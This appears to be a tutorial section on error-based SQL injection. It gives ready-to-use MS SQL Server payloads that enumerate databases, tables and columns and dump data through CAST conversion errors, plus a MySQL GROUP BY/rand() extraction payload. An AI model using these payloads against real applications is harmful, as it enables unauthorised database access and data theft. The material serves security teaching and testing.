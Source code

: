 # 5.4 Error-Based SQLi

## Exploiting Error-Based SQL Injection

Error-based SQL injections are an advanced technique to extract data from a database by triggering errors that reveal information within the error messages. This method is particularly fast and effective and is supported by various database management systems (DBMS) such as Oracle, PostgreSQL, and MS SQL Server.

### **MS SQL Server Error-based Exploitation**

**MS SQL Server Version Extraction:** To begin, it's crucial to identify the version of the MS SQL Server, as different versions may have different default column names in the master database. The `CAST` technique is employed to trigger a type conversion error, which reveals the database version. For example:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))); --
```

This payload, when injected into the vulnerable parameter, will cause an error message that includes the database version.

**Enumerating Databases:** After identifying the version, the next step is to enumerate the databases accessible to the current user. This is done using the `db_name()` function within a loop:

```sql
9999999 or 1 in (SELECT TOP 1 CAST (db_name(1) as varchar(4096))); --
```

Incrementing the argument of `db_name()` allows iterating through the available databases.

**Enumerating Database Tables:** Once databases are enumerated, the next step is to find the tables in a particular database:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM <database_name>..sysobjects WHERE xtype='U' and name NOT IN ('')); --
```

Here, the `xtype='U'` condition ensures that only user-defined tables are considered.

**Enumerating Columns:** After identifying tables, the columns within those tables need to be enumerated:

```sql
9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table_name> AND <db_name>..syscolumns.name NOT IN ('')); --
```

This query retrieves the column names for a specific table in the specified database.

**Dumping Data:** Finally, with knowledge of the database structure, data can be dumped using a similar technique:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(<column_name> as varchar(4096)) FROM <database_name>..<table_name> WHERE <column_name> NOT IN ('')); -- -
```

This query retrieves the actual content of the specified column in the specified table.

### **MySQL Error-Based SQLi Exploitation**

To exploit error-based SQL injection on MySQL, the `GROUP BY` statement is utilized. An example payload skeleton is as follows:

```sql
SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information_to_extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

For example, to extract the database version:

```sql
SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```
